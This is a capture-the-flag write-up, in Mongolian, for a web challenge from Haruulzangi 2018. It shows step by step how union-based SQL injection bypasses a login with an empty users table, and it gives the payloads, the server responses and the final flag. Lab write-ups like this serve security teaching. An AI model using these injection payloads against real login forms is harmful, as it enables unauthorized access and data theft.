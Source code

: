 # Haruulzangi 2018 Round 1 : Хоосон ширээ

**Category:** Web
**Points:** 944
**Solves:** 6
**Description:**

>Санамсаргүй тохиолдлоор login table-ийн бүх бичлэгийг устгажээ. та admin аар нэвтэрч чадах уу ?
>`http://218.100.84.106:5002`
>
>
>--
>reamb



## Write-up

Өгөгдсөн хаягаар хандаж үзвэл энгийн login форм байв.

![Login form](login-form.PNG)

Даалгаврын тайлбарт өгөгдсөнөөр энд ямар ч бичлэг байхгүй table дээрээс хүссэн хэрэглэгчийн нэрээр нэвтрэх ёстой байна. Үүнээс хархад `SQL injection` -ны даалгавар гэдэг нь мэдэгдэж байна. SQLi энгийн шалгалт хийж үзсэнээр алдааны мэдээлэл гаргаж чадлаа.
```
username=reamb' 
password=pass
 
хүсэлт явуулахад
 
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'pass'' at line 1
```
Хэрвээ бид login table дээр reamb гэдэг хэрэглэгч байсан бол `reamb'#`  эсвэл `reamb';-- -` гэж хүсэлт илгээн нэвтрэх боломжтой.
>үүнд `#`  , `;-- -` нь sql query тэмдэгтээс хойш хэсгийг коммент болгоно.

Тэгвэл бид `Union` ны тусламжтайгаар тухайн query ний хэв шинжийг өөрчлөх боломжтой болж байгаа юм. Ингэснээр бид MariaDB  дээрээс өөрийн хүссэн `Database`, түүний `Tables`, `Fields`, `Data` -г гарган авах боломжтой.  Union injection -ны тухай илүү мэдээллийг [Basic Union Based SQL injection](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Basic-Union-Based-SQL-Injection.html) хараарай.

```
username=reamb'  union select 1,2,3,4,5;-- -
password=

хүсэлт явуулахад.

The used SELECT statements have a different number of columns
```
хариу ирж байна. Энэ нь бидний 5 column-тай гэж шууд тааж үзсэн нь зөрж байна гэсэн үг. `1,2,3,4,5` гэдэг нь тухайн query очиж буй table -ийн column ийн тоотой таарч байх ёстой. Үүнийг бид гараар хүсэлт явуулан таах гэж үзье.

```
username=reamb'  union select 1;-- -
password=

The used SELECT statements have a different number of columns
```
```
username=reamb'  union select 1,2;-- -
password=

Та 1 хэрэглэгч байна.
Зөвхөн admin нууцыг харна.
```
БИНГО!!

login table нь 2 column байх нь.  `Та 1 хэрэглэгч байна.` нь бидний `reamb'  union select 1,2;-- -` хүсэлт дээр бичсэн `1`н тоо юм. үүн дээр бид өөрчлөлт хийх Уг өгөгдлийн сангийн сервис дээрээс хүссэн мэдээллийг харж болно. жишээ нь:

```
username=reamb'  union select database(),2;-- -
password=

Та sqli хэрэглэгч байна
Зөвхөн admin нууцыг харна.
```         
`sqli` өгөгдлийн сангийн нэр.

```
username=reamb'  union select @@version,2;-- -
password=

Та 5.5.60-MariaDB хэрэглэгч байна.
Зөвхөн admin нууцыг харна.
```        
`5.5.60-MariaDB` серверийн хувилбарын мэдээлэл.

Манай бодлогын хувьд бол маш энгийн бөгөөд  `1` -г  `'admin'` болгосноор асуудал шийдэгдэнэ.

```
username=reamb'  union select 'admin',2;-- -
password=

Тавтай морил admin
HZ{SQL1_feels_go0d}
```        
flag нь `HZ{SQL1_feels_go0d}`

## Other write-ups and resources

* none yet

